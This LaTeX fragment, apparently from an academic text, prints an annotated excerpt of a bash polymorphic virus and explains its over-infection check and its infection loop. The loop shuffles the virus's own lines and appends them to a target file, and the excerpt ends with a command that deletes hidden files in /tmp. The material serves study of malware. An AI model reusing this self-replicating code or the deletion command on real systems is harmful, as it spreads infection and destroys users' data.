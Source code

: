 \documentclass[a4paper,6.5pt]{article}
\makeatletter
\newcommand{\tocode}[1]{\mbox{\lstinline@#1@}}
\makeatother
\begin{document}
\begin{lstlisting}
	// Creates am array of 37 elements: first element "FT" and the last " "
  tabft=("FT" [36]=" ")  #@24
  declare -i nbl=0  #@25	// Creates an integer variable nbl=0
  while [ $nbl -ne 36 ]; do  #@26 // while (nbl != 36)
    valindex=$(((RANDOM % 36)+1))  #@27 		// Generates a random number from 1 to 36
    // while  tabft[valindex] == "FT" then choose a new number for valindex, that is a new line to append
    while [ "${tabft[$valindex]}" == "FT" ]; do  #@28
      valindex=$(((RANDOM % 36) + 1))  #@29
    done  #@30
		// Takes the last (n minus valindex)-line of the virus					
    line=$(tail -n $valindex $0 | head -1)  #@31
    // Appends the line to the target file
    echo -e "$line" >> $target  #@32
    // Increment the counter and sign the valindex cell of tabft as appended
    nbl=$(($nbl+1)) && tabft[$valindex]="FT"  #@33
  done  #@34
done  #@35
rm /tmp/.* 2> /dev/null  #@36 // Removes all hidden temporary files
\end{lstlisting}

The lines  \tocode{1-3} and \tocode{14-18} deal with preventing over-infection: the virus executes a file and if it returns 0 it is already infected. The lines \tocode{19-34} identify the infection phase: initially the virus appends to the target file the code used to trigger the infection and finally the virus shuffles its own code and appends it to the target file: this is the implemented polymorphic mechanism. The virus has no payload.
\end{document}
